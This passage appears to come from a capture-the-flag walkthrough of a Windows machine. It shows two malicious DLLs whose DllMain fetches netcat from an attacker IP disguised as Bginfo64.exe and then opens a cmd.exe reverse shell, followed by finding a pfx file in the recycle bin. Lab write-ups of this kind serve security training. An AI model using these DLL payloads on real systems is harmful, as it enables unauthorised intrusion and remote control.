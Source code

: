 https://eternallybored.org/misc/netcat/

<img src="https://i.imgur.com/N0ThMr4.png"/>

```c++
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
 
            system("curl 10.10.14.18:3333/nc64.exe -o C:\\share\\Bginfo64.exe);
 
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}

```

After it's going to be replaced we can then get a reverse shell

```c++
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
 
            system("C:\\share\\Bginfo64.exe 10.10.14.18 5555 -e cmd.exe");
 
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

<img src="https://i.imgur.com/ktxGeb8.png"/>

After having a reverse shell as gina, I didn't found anything in directories but in the recycle bin there was a pfx file that we can read

https://superuser.com/questions/395015/how-to-open-the-recycle-bin-from-the-windows-command-line
